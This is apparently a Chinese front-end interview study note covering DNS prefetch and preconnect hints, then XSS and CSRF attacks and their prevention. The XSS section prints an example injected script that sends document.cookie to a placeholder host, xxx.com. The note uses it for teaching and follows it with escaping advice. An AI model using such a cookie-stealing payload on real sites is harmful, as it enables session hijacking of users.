 一个 http 请求，第一步就是 DNS 解析得到 IP ，然后进行 TCP 连接。连接成功后再发送请求。

dns-prefetch 即 DNS 预获取，preconnect 即预连接。当网页请求**第三方**资源时，可以提前进行 DNS 查询、TCP 连接，以减少请求时的时间。

```html
<html>
  <head>
    <link rel="dns-prefetch" href="https://fonts.gstatic.com/">
    <link rel="preconnect" href="https://fonts.gstatic.com/" crossorigin>

  </head>
  <body>
      <p>hello</p>
  </body>
</html>
```

# 7.前端攻击有哪些？该如何预防？

## 7.1XSS

Cross Site Scripting 跨站脚本攻击。

手段：用户通过某种方式（如输入框、文本编辑器）输入一些内容，其中带有攻击代码（JS 代码）。该内容再显示时，这些代码也将会被执行，形成了攻击效果。

```html
<!-- 例如用户提交的内容中有： -->
<script>
    var img = document.createElement('img')
    img.src = 'http://xxx.com/api/xxx?userInfo=' + document.cookie // 将 cookie 提交到自己的服务器
</script>
```

预防：替换特殊字符

```js
const newStr = str.replaceAll('<', '&lt;').replaceAll('>', '&gt;')
```

也可以使用第三方工具，例如

- https://www.npmjs.com/package/xss
- https://www.npmjs.com/package/escape-html

现代框架默认会屏蔽 XSS 攻击，除非自己手动开启

- Vue `v-html`
- React `dangerouslySetInnerHTML`

## 7.2CSRF

Cross-site request forgery 跨站请求伪造。

- 手段：黑客诱导用户去访问另一个网站的接口，伪造请求。
- 预防：严格的跨域限制+验证码机制。
